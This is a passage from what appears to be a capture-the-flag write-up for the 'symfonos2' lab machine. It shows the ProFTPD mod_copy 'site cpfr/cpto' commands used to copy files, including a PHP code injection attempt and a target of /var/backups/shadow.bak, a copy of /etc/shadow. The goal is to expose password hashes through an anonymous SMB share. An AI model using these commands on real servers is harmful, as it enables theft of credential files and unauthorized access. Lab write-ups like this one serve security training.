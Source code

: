This is where you'll realise why you've been provided with that `log.txt`.
We have access to `/anonymous` share on SMB and in that log file we can see the exact path of that share.

![](images/sym2/aeolus.png)

So if we can copy content of files to `/home/aeolus/share` maybe we can see them.

#### The following is the intended way:

From the log.txt we know that root ran a command

```bash
$ root@symfonos2:~# cat /etc/shadow > /var/backups/shadow.bak
```
meaning there has to be a file containing the content of shadow.

We follow the exploit we found for FTP version i.e

```bash
site cpfr /etc/passwd
350 File or directory exists, ready for destination name
site cpto <?php phpinfo(); ?>
550 cpto: Permission denied
site cpfr /proc/self/fd/3
350 File or directory exists, ready for destination name
site cpto /var/www/test.php
```

but with different file paths

![](images/sym2/ftp-exploit.png)

